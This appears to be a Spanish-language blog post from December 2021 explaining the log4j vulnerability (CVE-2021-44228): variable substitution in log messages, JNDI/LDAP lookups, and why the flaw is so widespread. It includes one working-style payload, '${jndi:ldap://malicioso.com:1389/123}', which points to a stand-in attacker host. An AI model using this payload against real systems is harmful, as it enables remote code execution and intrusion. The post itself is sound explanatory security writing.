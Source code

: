 +++
title = "¿qué pasó con log4j?"
slug = "20211222125958771"
date = "2021-12-22T11:44:58-06:00"
[taxonomies]
tema = ["noticias"]
autor = ["Víctor Manuel Jáquez Leal"]
+++

Para estas alturas posiblemente todos ya estarán enterados del fallo de
seguridad en log4j[1], aunque creo que vale la pena repasarlo.

Todo software más o menos complejo registra los eventos que le conciernen. La
forma más simple de registrar estos eventos, sería imprimir en la salida
estándar o de error un mensaje, humanamente legible, describiendo el evento en
cuestión. Pero el registro de eventos puede complicarse al grado de que existen
bibliotecas de software específicas que abstraen esta actividad. Hay bibliotecas
de “logging” (como se conoce al registro de eventos) para todos los lenguajes, y
log4j[2] es uno de los disponibles para Java.

¿En qué consiste el bug?

En pocas palabras, log4j “parsea” los mensajes a registrar en búsqueda de
variables que puede reemplazar. Por ejemplo, el programador loggea este mensaje:

```javascript
logger.info(“El usuario” + user + ” ha entrado”).
```

Entonces log4j parsea la cadena y sabe que la variable user, en el estado actual
de la aplicación es “ceyusa”, por lo que finalmente escribe en bitácora

```txt
12:38:10.234 [main] INFO Main - El usuario ‘ceyusa’ ha entrado
```

Esto es muy útil, pero como todos los datos proveídos por el usuario, son
potencialmente peligrosos, máxime si éstos viajan por red.

Supongamos que el usuario puede cambiar su nombre de usuario de “ceyusa” a
“${java:version}”. log4j parseará esa cadena y verá que es un programa en java
que ejecuta, por lo que el resultado será:

```txt
12:38:10.234 \[main\] INFO Main - El usuario ‘Java version 1.8.0_213’ ha
entrado
```

Por otro lado, hay una cosa en Java que se llama JNDI: Java Naming and Directory
Interface[3]. Es una interfaz para indicar, a la máquina virtual de Java, la
localización de un recurso remoto, por ejemplo una base de datos, un Enterprise
Java Bean, etcétera. Uno de los usos más comunes es obtener información de un
directorio a través del protocolo LDAP.

En nuestro ejemplo, el usuario podría cambiar su nombre de usuario por
‘${jndi:ldap://malicioso.com:1389/123}’. Lo que haría log4j sería parsear esa
cadena y ejecutarla. Al usar la API de JNDI, sabrá que el contenido de esa
variable se encuentra en un servidor remoto, llamado malicioso.com, usando el
protocolo LDAP y obtendrá el registro con la llave 123. Este servidor remoto
puede estar bajo control del atacante y devolverá una cadena que se ejecutará
dentro de la máquina virtual de Java que ejecuta de nuestra inocente aplicación,
como, por ejemplo, lanzar una terminal en un puerto TCP (el típico remote
backdoor).

¿Por qué es tan relevante?

1. Hay un montón de software en Java, legacy, sin mantener, ejecutándose en
   internet, usando una versión vulnerable de log4j.
2. Hay un montón de software en Java, mantenido, pero que tiene una dependencia
   fuerte a un framework que usa una versión vulnerable de log4j.
3. Hay demasiado software en Java, como en bancos, controladores aeroportuarios,
   etc.

Finalmente, nos remite al cartón de XKCD[4] sobre tener dependencias profundas
de software, en sistemas complejos. O, al otro, clásico, sobre no confiar,
nunca, en lo absoluto, en las entradas del sistema[5].

Es más, hay quien toma esta situación como argumento para evitar esos
grandes frameworks totalizantes, y que sólo el lenguaje de programación
sea nuestro framework[6].

1. <https://nvd.nist.gov/vuln/detail/CVE-2021-44228>
2. <https://logging.apache.org/log4j/2.x/>
3. <https://docs.oracle.com/javase/tutorial/jndi/overview/index.html>
4. <https://xkcd.com/2347/>
5. <https://xkcd.com/327/>
6. <https://twitter.com/tomaka17/status/1470022487790571522>
